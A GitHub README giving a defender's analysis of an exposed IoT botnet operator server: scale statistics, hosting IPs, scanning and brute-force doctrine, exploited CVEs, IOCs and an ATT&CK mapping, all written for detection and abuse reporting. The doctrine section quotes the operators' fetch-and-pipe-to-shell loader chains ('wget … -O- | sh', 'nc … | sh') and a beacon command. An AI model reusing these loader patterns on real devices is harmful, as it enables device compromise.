


# Anatomy of an IoT botnet: analysis of an operator dump

[RU](README.md) · **EN**

Analysis of a working machine and file server belonging to the operators of an
IoT botnet (routers, cameras, DVRs). The material comes from a directory listing
the operators exposed themselves.

> Victim addresses, passwords and private keys are **not** published. Only
> architecture, statistics and indicators.

[](iocs/)
[](yara/)
[](#labs-and-pocs)

## TL;DR

| | |
|---|---|
| Unique compromised devices | **15,963** |
| Login attempts in brute-force logs | **199,500,000+** |
| Targets that passed engine validation | **2,090,317** |
| Internal devices discovered behind compromised routers | **10,410** (via 899 "parents") |
| Share of cameras / DVRs | **52.4%** |
| Share of routers / CPEs | **39.6%** |
| Server-side CVEs | **0.1%** |
| Unique CVEs in engine modules | **54** |
| Largest single-ISP cluster | **4,540 devices (28.4%)** |

This is not a "smart" botnet: it is an industrial pipeline
**scan → brute-force default credentials → deliver ELF → beacon**.

## Infrastructure



Also: `45.90.13.11:/srv/nfs` (NFS for payloads), `fd6.eu` (short domain alias for
character-limited sinks), `176.98.182.21` (second beacon receiver). Retired:
`151.243.11.210`, `46.246.97.179`.

### Hosting (whois)

| address | provider | country |
|---|---|---|
| 45.90.13.169 | RoyaleHosting BV | NL |
| 151.243.11.240–242 | AS209630 "Company 657aeb44…" | DE |
| 176.98.182.21 | AKKUMYS KADYROVA | NL |
| 45.205.1.10 | VPSVAULT.HOST LTD (AS215925) | US (declared) |
| 46.246.97.179 | BlueVPS | SE |
| 66.70.221.212 / 62.210.173.100 | OVH / Scaleway | CA / FR |
| 16.5.0.227 | HPE block, ~235 ms RTT | US |

Provider "legend": offshore entities (Seychelles), fictitious organisations
(`Company 657aeb44Ri0HX6X8`), addresses in third countries — typical bulletproof.

## Doctrine (from their own playbook)

- **`doorway`** — a Rust scanner+delivery engine with 45 per-family modules.
- **Beacon-only validation**: a `doorway-debug` build with the `pingpayload`
  feature replaces every payload with `ping -c 1 <receiver>`. Their words:
  "HTTP status codes lie by ~7x; downloads prove delivery, beacons prove execution".
- **Fire-ALL**: each module fires every delivery chain in order
  (`nc … | sh`, `wget … -O- | sh`, `wget http://fd6.eu/…`, curl, form-encoded).
- **Source-IP rotation** per login (pool of six addresses) against lockouts.
- **Short tokens** for devices with command length limits.

## Scale

| source | lines | hits | unique hosts |
|---|---:|---:|---:|
| `gt-webfig-out.jsonl` | 89,053,919 | 5,956 | 1,854 |
| `gt-winbox-out.jsonl` | 110,473,202 | 26,915 | 8,757 |
| `rt-results.jsonl` | 3,524 | 1,034 | 528 |
| `enrich-merged.jsonl` | 28,444 | 14,854 ok | 11,033 |

Union: **15,963 unique IPs**. Hits by port:

```
8292  7075   <- non-default Winbox port overtook 8291
8291  6682
8000  1910
80    1500
8293  1311
```

RouterOS versions seen (from `/system resource print`): 6.48.6 (1,543),
6.49.19 (886), 6.47.10 (646), 6.49.7 (535) — i.e. devices from 2021–2023 that
were never updated.

## What the devices are



Top modules: hikvision 54.9%, tvt 20.7%, asus 10.8%, zywall 8.1%, emerge 1.3%,
dvrip 1.2%, realtek_rsdk 0.9%.

## Who hosts them

| ASN | devices | share | organisation |
|---|---:|---:|---|
| **328638** | **4,540** | **28.4%** | Letaba Networks, South Africa |
| 268132 | 739 | 4.6% | W M Figueiredo, Brazil |
| 7713 | 258 | 1.6% | PT Telekomunikasi Indonesia |
| 267961 | 257 | 1.6% | Fraga Software e Telecom, Brazil |
| 45899 | 223 | 1.4% | VNPT Corp, Vietnam |

Dense /16 blocks: `102.141.0.0/16` (1,984), `154.65.0.0/16` (1,123),
`160.226.0.0/16` (881), `45.169.0.0/16` (742), `196.6.0.0/16` (362).

## Second echelon

From `map-scan-*.jsonl` (894 files): 25,994 records, 899 unique "parents"
(compromised external devices), **10,410 unique internal IPs**. Ports inside
LANs: 80 (9,451), 443 (3,832), 22 (2,973), 23 (2,814), 554 RTSP (2,262),
8291 (1,224), 37777 Dahua (1,123).

## Exploits

54 unique CVEs. Highlights (see `CVE-INVENTORY.md` for all): ActiveMQ
CVE-2023-46604, Openfire CVE-2023-32315, Confluence CVE-2022-26134, Jenkins
CVE-2018-1000861 / CVE-2024-23897, Tomcat CVE-2017-12615, pfSense CVE-2022-40624,
Ray CVE-2023-48022, Roller CVE-2026-82384, LiteLLM CVE-2026-49468, plus IoT:
Realtek CVE-2014-8361, Dasan CVE-2023-42495, Boa CVE-2020-8958, ASUS
CVE-2023-39780/41346/41348, TOTOLINK CVE-2025-28137, FiberHome CVE-2021-271xx.

Public code exists only for **php2shell** (CVE-2026-109618, `9bie` repository).
Everything else — `ka.py` connection pinning, the `doorway` engine with 45
modules, `payload-staged.rs`, the `rt` RouterOS toolkit, field tooling — is private.

## IOCs

**Network:** 8291–8299 (Winbox), 8728/8729 (API), 31281 (their SOCKS), 80/8080
(WebFig), 2121 FTP, 69 TFTP, 5269/9090 XMPP, 61616 ActiveMQ.

**Router rule comments they leave behind:** `dw`, `dw-src`, `dw-socks`,
`dw-socks-deny`, `doorway-temp`, `doorway-temp-nat`.

**Host paths:** `/var/tmp/.dlr`, `/var/tmp/.n`, `/var/tmp/.u`, `/var/tmp/cu/`,
`/dev/.hidden`, `/dev/.x`, `/dev/shm/.x`, `/tmp/.dpnxntsf`,
`/tmp/protokol-client.pid`.

**Strings:** `protokol-v1-nk`, `protokol-instances`, `protokol.single`, `zicron`,
`zollard`, `rsocks`, `KILLATTK`, `LOLNOGTFO`, `TS3INIT1`,
`not a Winbox endpoint (new or old)`, `mac-telnet failed: child rejected the credential`.

**Beacon:** ICMP echo to `45.205.1.9`; in tests `ping -c 1 45.205.1.9`.

YARA rules: [`yara/protokol_client.yar`](yara/protokol_client.yar).

## MITRE ATT&CK

| tactic | technique |
|---|---|
| Reconnaissance (T1595) | mass port scanning (`flowscan-musl`) |
| Initial Access (T1190) | CVE exploitation in routers/cameras |
| Initial Access (T1078) | default and empty credentials |
| Execution (T1059) | shell loaders (`wget | sh`) |
| Persistence (T1098) | SSH keys in `authorized_keys` |
| Persistence (T1505) | enabling `www`, firewall rules (`doorway-temp`) |
| Defense Evasion (T1562) | iptables edits, log tampering |
| Credential Access (T1110) | Winbox/WebFig/Telnet brute force |
| Discovery (T1046, T1016) | `lanmap`, `/ip arp`, `/ip route`, DHCP leases |
| Collection (T1005) | `/backup save`, `/export`, `/ip socks users print` |
| C2 (T1090, T1571) | SOCKS on device, non-standard ports |
| Exfiltration (T1048) | ICMP beacons, HTTP uploads |

---

## Labs and PoCs

For CVEs from this campaign there are standalone labs (mock service + PoC,
localhost only, harmless payload):

| repository | device | type |
|---|---|---|
| [CVE-2014-8361](https://github.com/krevetkqqq/CVE-2014-8361) | Realtek SDK miniigd | pre-auth RCE 9.8 |
| [CVE-2020-8958](https://github.com/krevetkqqq/CVE-2020-8958) | Guangzhou 1GE ONU | pre-auth RCE 9.8 |
| [CVE-2023-42495](https://github.com/krevetkqqq/CVE-2023-42495) | Dasan W-Web | pre-auth RCE 9.8 |
| [CVE-2023-41011](https://github.com/krevetkqqq/CVE-2023-41011) | China Mobile HG6543C4 | pre-auth RCE |
| [CVE-2024-9441](https://github.com/krevetkqqq/CVE-2024-9441) | Linear eMerge e3 | pre-auth RCE 9.8 |
| [CVE-2026-82384](https://github.com/krevetkqqq/CVE-2026-82384) | Apache Roller | deserialization 9.8 |
| [CVE-2026-49468](https://github.com/krevetkqqq/CVE-2026-49468) | LiteLLM | 9.5 |
| [CVE-2022-40624](https://github.com/krevetkqqq/CVE-2022-40624) | pfSense pfBlockerNG | RCE |
| [CVE-2023-48022](https://github.com/krevetkqqq/CVE-2023-48022) | Anyscale Ray | RCE via job API |
| [CVE-2024-40891](https://github.com/krevetkqqq/CVE-2024-40891) | Zyxel VMG4325-B10A | post-auth RCE 8.8 |
| [CVE-2023-41346](https://github.com/krevetkqqq/CVE-2023-41346) | ASUS RT-AX55 | post-auth RCE 8.8 |
| [CVE-2023-41348](https://github.com/krevetkqqq/CVE-2023-41348) | ASUS RT-AX55 | post-auth RCE 8.8 |
| [CVE-2023-39780](https://github.com/krevetkqqq/CVE-2023-39780) | ASUS RT-AX55 | post-auth RCE 8.8 |
| [CVE-2025-28137](https://github.com/krevetkqqq/CVE-2025-28137) | TOTOLINK A810R | pre-auth RCE 9.8 |
| [CVE-2021-27177](https://github.com/krevetkqqq/CVE-2021-27177) | FiberHome HG6245D | auth bypass |
| [CVE-2025-0890](https://github.com/krevetkqqq/CVE-2025-0890) | Zyxel telnet | default credentials |
| [CVE-2023-32311](https://github.com/krevetkqqq/CVE-2023-32311) | CloudExplorer Lite | authz bypass 7.1 |
| [Openfire lab](https://github.com/krevetkqqq/cve-2023-32315-openfire-lab) | Openfire | pre-auth RCE 9.8 |
| [ActiveMQ lab](https://github.com/krevetkqqq/cve-2023-46604-activemq-lab) | ActiveMQ | pre-auth RCE 9.8 |
| [CVE-2014-9583](https://github.com/krevetkqqq/CVE-2014-9583) | ASUS infosvr (UDP 9999) | pre-auth RCE, root |
| [CVE-2019-7256](https://github.com/krevetkqqq/CVE-2019-7256) | Linear eMerge E3 | unauth RCE → root (CVE-2019-7261) |
| [CVE-2023-37679](https://github.com/krevetkqqq/CVE-2023-37679) | NextGen Mirth Connect | pre-auth deserialization |
| [CVE-2024-9644](https://github.com/krevetkqqq/CVE-2024-9644) | Four-Faith F3x36 | auth bypass → RCE 9.8 |
| [CVE-2026-61515](https://github.com/krevetkqqq/CVE-2026-61515) | Puwell IP camera (DebugShell) | unauth RCE 9.8, root |

## Abuse reporting

[`ABUSE-REPORT.md`](ABUSE-REPORT.md) contains ready-to-send letters (RU/EN) for
hosting providers, with this repository referenced as evidence.

## What is not published

Engine sources, binaries, loaders, payloads, target lists, credentials, private
keys and dumps with addresses. Publishing a working botnet would be malware
distribution; this write-up gives defenders the same value without that risk.

## Ethics

Analysis of publicly exposed operator data. No third-party devices were accessed.
All labs run on localhost only, with harmless payloads.
